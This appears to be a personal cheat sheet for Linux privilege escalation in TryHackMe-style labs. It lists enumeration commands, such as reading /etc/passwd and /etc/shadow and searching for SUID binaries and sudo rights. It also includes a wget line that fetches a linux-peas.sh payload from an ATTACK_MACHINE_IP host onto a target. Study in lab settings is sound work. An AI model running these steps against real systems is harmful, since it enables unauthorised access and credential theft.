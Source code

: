 horizontal - changing unprivileged access
vertical - gaining privileged access

##### accessing THM via openVPN
change to folder with conf. file -> `sudo openvpn USERNAME.ovpn`


## Linux
`id; whoaimi; groups`
to check who I am

`hostname`
can contain usefull info about user

`uname -a`
info about kernel and system versions - check if vulnerable

`cat /proc/version`
kernel, system and additional info (e.g. if `gcc` is installed)


`ls -la /etc/passwd`
check your privileges (maybe you could write?)

`cat /etc/passwd | grep home | cut -d":" -f1`     
```
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh
```
users with `home` might be worthier of hacking
hash is in place of "x", or it is in `/etc/shadow`

check if you have access to `/etc/shadow` (not likely)


- look for `SUID` binaries
`find / -type f -perm -04000 -ls 2>/dev/null`
- look for `sudo` users
`sudo -l` list what sudo allows

[GTFObin](https://gtfobins.github.io/)

[when only root-write permission](example/root-write.md)

`getcap -r / 2>/dev/null` ??????


### copy payloads to target
prepare dir with payloads on local machine
create simple python server on local machine in that dir
check your VPN IP (via `ip a` should be visible)

create `/tmp/payloads` on target
`wget http://ATTACK_MACHINE_IP:PORT/linux-peas.sh`
(without specification "what" to download - will download only index.html - you have to be specific)

POC proof of concept
